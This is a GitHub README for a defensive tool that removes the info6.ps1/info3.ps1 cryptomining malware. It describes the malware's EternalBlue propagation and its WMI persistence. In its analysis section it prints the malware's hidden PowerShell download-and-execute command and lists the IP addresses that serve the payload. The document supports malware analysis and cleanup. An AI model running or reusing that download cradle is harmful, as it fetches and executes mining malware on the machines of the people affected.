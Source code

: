 # AntiMining-info6
![alt tag](https://github.com/BillyV4/AntiMining-info6/blob/master/Screenshot/Logo.jpg)
#### By Carlos Ramírez López

## ABOUT
Currently, cryptocurrency mining malware with file name info6.ps1 is being propagated for architecture (X64) and info3.ps1 for architecture (x86) in Windows. This malware is divided into four parts:

  - Performance modification in the computer equipment to "high performance" through the Windows registry.
  - Mining of cryptocurrencies, increasing CPU processing between 70% and 100%. (Image 1)
  - Persistence in infected computers, modifications of Windows variable classes. (Image 2 and 3)
  - Propagation through the network taking advantage of the Eternalblue vulnerability in the SMB port 445 of shared folders, scanning the red segment of the computer equipment. (Image 4)

#### Image 1
![alt tag](https://github.com/BillyV4/AntiMining-info6/blob/master/Screenshot/CPU.jpg)

#### Image 2
![alt tag](https://github.com/BillyV4/AntiMining-info6/blob/master/Screenshot/Clases.jpg)

#### Image 3
![alt tag](https://github.com/BillyV4/AntiMining-info6/blob/master/Screenshot/Infected_Class.jpg)

#### Image 4
![alt tag](https://github.com/BillyV4/AntiMining-info6/blob/master/Screenshot/Scan.jpg)

In the page www.virustotal.com, 16 of 59 antivirus detect the files info6.ps1 and info3.ps1 on February 12, 2018 as a malware, however, once the code has been executed on your computer, only 1 of 59 antivirus I detect it, but without creating a solution on the affected computers.
Malware info6.ps1 and info3.ps1
![alt tag](https://github.com/BillyV4/AntiMining-info6/blob/master/Screenshot/Virus_Total1.jpg)

malware in the operating system
![alt tag](https://github.com/BillyV4/AntiMining-info6/blob/master/Screenshot/Virus_total2.jpg)


### ANALYSIS
The malware is downloaded from different IP addresses by means of the script identifying the type of architecture:
#### DO NOT EXECUTE THE FALLOWING COMMAND

```
cmd /c powershell.exe -NoP -NonI -W Hidden "if((Get-WmiObject Win32_OperatingSystem).osarchitecture.contains('64')){IEX(New-Object Net.WebClient).DownloadString('http://IP /info6.ps1')}else{IEX(New-Object Net.WebClient).DownloadString('http://IP/info3.ps1')}"
```
malicious IP addresses:
  - 195.22.127.157:8000/INFO6.PS1
  - 118.XXX.48.95:8000/INFO6.PS1
  - 93.XXX.93.73:8000/INFO6.PS1

#### The malware creates persistence stored in classes:
```
__FilterToConsumerBinding
CommandLineEventConsumer
__EventFilter –filter
```
## Elimination of malware

To eliminate the malware it is necessary to eliminate the variables the content of the affected variables where the malicious script is stored.
For this we only need to eliminate the powershell.exe from the task manager and execute the AntiMining-info6.bat script by double clicking on it, automatically removing the malware.

![alt tag](https://github.com/BillyV4/AntiMining-info6/blob/master/Screenshot/AntiMiner.jpg)


